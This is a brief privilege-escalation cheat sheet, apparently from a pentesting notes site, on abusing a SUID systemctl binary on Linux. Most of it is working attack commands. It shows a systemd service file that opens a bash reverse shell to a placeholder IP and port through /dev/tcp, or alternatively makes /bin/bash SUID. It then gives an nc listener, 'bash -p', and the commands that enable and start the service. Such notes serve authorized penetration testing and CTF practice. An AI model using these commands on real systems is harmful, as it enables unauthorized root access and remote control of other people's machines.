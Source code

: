# systemctl (SUID)

{% embed url="https://gtfobins.github.io/gtfobins/systemctl#suid" %}

{% embed url="https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49" %}

```
$ cat <<EOF > root.service
>[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
# Alternatively
# ExecStart=/bin/sh -c 'chmod +s /bin/bash'

[Install]
WantedBy=multi-user.target
>EOF
```

```
# Listen on <port>
$ nc -nlvp <port>

# For set /bin/bash as suid binary approach, simply run:
$ bash -p
```

```
/bin/systemctl enable /dev/shm/root.service
/bin/systemctl start root
```

Additional reading on how to create a Linux service with systemd

* [https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)
* [https://unix.stackexchange.com/questions/404667/systemd-service-what-is-multi-user-target](https://unix.stackexchange.com/questions/404667/systemd-service-what-is-multi-user-target)
